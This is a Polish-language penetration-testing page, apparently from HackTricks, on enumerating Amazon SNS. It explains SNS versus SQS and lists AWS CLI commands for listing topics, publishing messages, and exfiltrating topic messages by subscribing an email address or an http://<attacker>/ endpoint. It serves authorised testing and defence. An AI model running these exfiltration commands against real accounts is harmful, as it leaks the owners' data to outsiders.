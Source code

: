 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisana jako **w pełni zarządzana usługa komunikacyjna**. Obsługuje zarówno **komunikację aplikacja-do-aplikacji** (A2A), jak i **komunikację aplikacja-do-osoby** (A2P).

Kluczowe cechy dla komunikacji A2A obejmują **mechanizmy publikacji/subskrypcji (pub/sub)**. Te mechanizmy wprowadzają **tematy**, które są kluczowe dla umożliwienia wysokowydajnej, **opartej na push, komunikacji wiele-do-wielu**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikroserwisy i architektury bezserwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą efektywnie dystrybuować wiadomości do **szerokiego zakresu systemów subskrybujących**, ułatwiając wzorzec komunikacji fanout.

### **Różnica z SQS**

**SQS** to usługa **oparta na kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając, że wiadomości są przetwarzane przez **jednego konsumenta**. Oferuje **dostawę przynajmniej raz**, obsługuje standardowe i FIFO kolejki oraz pozwala na przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z drugiej strony, **SNS** to usługa **oparta na publikacji/subskrypcji**, umożliwiająca **komunikację jeden-do-wielu** poprzez nadawanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty subskrypcyjne, takie jak e-mail, SMS, funkcje Lambda i HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanej dostawy wiadomości.\
Chociaż obie usługi umożliwiają odseparowanie komponentów w systemach rozproszonych, SQS koncentruje się na komunikacji w kolejkach, a SNS podkreśla wzorce komunikacji oparte na zdarzeniach i fan-out.

### **Enumeracja**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Zauważ, że jeśli **temat jest typu FIFO**, tylko subskrybenci używający protokołu **SQS** mogą być używani (HTTP lub HTTPS nie mogą być używane).
>
> Ponadto, nawet jeśli `--topic-arn` zawiera region, upewnij się, że określasz poprawny region w **`--region`**, w przeciwnym razie otrzymasz błąd, który wygląda, jakby wskazywał, że nie masz dostępu, ale problemem jest region.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
